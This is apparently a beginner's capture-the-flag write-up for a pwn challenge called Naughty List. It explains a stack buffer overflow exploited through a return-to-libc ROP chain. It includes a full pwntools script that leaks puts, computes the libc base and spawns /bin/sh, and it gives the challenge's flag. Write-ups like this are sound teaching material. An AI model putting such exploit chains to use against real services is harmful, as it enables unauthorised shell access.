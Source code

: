 # Naughty List  (Day 3)

NOTE: I like this series of pwn challenges because they really build upon one another and were very suitable for a beginner like me. I didn't finish this challenge within the allocated time but I learnt alot from it about Return Oriented Programming (ROP) and so I decided to detail the steps here.

We are given a file called **naughty_list** with the following security permissions: 

![checksec](https://user-images.githubusercontent.com/71312079/153104565-32743267-1ce2-459f-864e-deb0a41c7bec.png)

Hmm.. this is similar to [Day 1's](../Mr%20Snowy/README.md) challenge, with the exception that there is no function we can jump to within the binary in order to obtain the flag. The presence of a [libc](libc.so.6) file also is a clear sign that this is likely a **return to libc** attack.

Running the file, I receive the following prompt
![naughty](https://user-images.githubusercontent.com/71312079/153110378-bca2eaea-3647-41d7-9362-c98df0832559.png)

After keying in some inputs (highlighted in yellow), I see the **segmentation fault** and can confirm that the program is vulnerable to a buffer overflow.

Given that the stack is not executable, we need to use a sequence of ROP gadgets in order to:
1. Leak the address of a libc function (*'puts'* in this case)
2. Return back to the **get_descr** function (So we don't have to type in name/surname/age again)
3. Find the libc base address
4. Find the **/bin/sh** string
5. Find the **system** command to execute **/bin.sh**
6. Obtain shell on the server and retrieve the flag

**get_descr decompiled view in Ghidra**
![get_desc](https://user-images.githubusercontent.com/71312079/153110380-b6c1b3e7-eec8-458a-890e-2ccacc93007c.png)

Prior to exploitation, I performed the following steps:
* Used [ropper](https://github.com/sashs/Ropper) to find  2 gadgets
  *  **'pop rdi; ret;'** - enables the address of the *puts* function in our file to be leaked
  *  **'ret;'** - aligns the stack so the *system* function can be properly called in our 2nd buffer overflow
* Created a patched file **naughty_list_patched** with the supplied libc file using [pwninit](https://github.com/io12/pwninit) for local testing

Below is the full solution with comments.
```python
from pwn import *

e = context.binary = ELF('./naughty_list_patched', checksec=False)
#r = remote('178.128.35.132', 32273)
l = ELF('./libc.so.6', checksec=False)
r = process('./naughty_list_patched')

ret = 0x400756 # ret;
pop_rdi = 0x401443 # pop rdi; ret;
# Addresses taken from ropper 

r.sendlineafter(':', 'name')
r.sendlineafter(':', 'surname')
r.sendlineafter(':', '20')

buf = b'A' * 0x28 
# Offset determined using gef 
buf += p64(pop_rdi) 
buf += p64(e.got['puts'])
# Address of 'puts' from GOT gets popped into the RDI
buf += p64(e.plt['puts'])
# Prints out the address of 'puts' as it is in the RDI
buf += p64(e.symbols['get_descr'])
# Return back to the get_descr function 

r.sendline(buf)
r.recvuntil('will take a better look and hopefuly you will get your')
r.recvline()

libc_puts = u64(r.recvline()[:-1].ljust(8, b'\x00'))
# Received address is padded to 8 bytes since this is a 64-bit executable
libc_base = libc_puts - l.symbols['puts']
#l.symbols['puts'] will be an offset from the libc_base

buf = b'A' * 0x28 
buf += p64(pop_rdi)
buf += p64(libc_base + next(l.search(b"/bin/sh")))
buf += p64(ret) 
buf += p64(libc_base + l.symbols['system'])

r.sendline(buf)
r.interactive()
r.close()
```
FLAG: `HTB{u_w1ll_b3_n4ughtyf13d_1f_u_4r3_g3tt1ng_4_g1ft}`